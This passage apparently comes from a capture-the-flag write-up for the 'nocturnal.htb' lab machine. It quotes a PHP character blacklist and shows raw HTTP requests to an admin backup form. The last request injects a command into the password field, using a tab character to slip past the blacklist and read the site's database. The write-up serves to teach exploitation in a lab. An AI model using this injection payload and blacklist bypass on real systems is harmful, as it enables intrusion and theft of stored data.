 ```php
$blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

There’s some blacklisted characters but it’s not extensive so we can probably find some ways around this. 

```php
$db = new SQLite3('../nocturnal_database/nocturnal_database.db');
```

We also have a database file path which might be worth exploring.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662615/image_ps2dvq.png)

The code relates to the `Create Backup` section of the admin site at `/admin.php` . Let’s test with a random password in the password field and then press `Create Backup` .

```
POST /admin.php HTTP/1.1
Host: nocturnal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://nocturnal.htb
Connection: keep-alive
Referer: http://nocturnal.htb/admin.php
Cookie: PHPSESSID=54morik5betovda2o9300e5t6g
Upgrade-Insecure-Requests: 1
Priority: u=0, i

password=test&backup=
```

```
POST /admin.php HTTP/1.1
Host: nocturnal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://nocturnal.htb
Connection: keep-alive
Referer: http://nocturnal.htb/admin.php
Cookie: PHPSESSID=54morik5betovda2o9300e5t6g
Upgrade-Insecure-Requests: 1
Priority: u=0, i

password=test"/
base64%09../nocturnal_database/nocturnal_database.db"&backup=
```
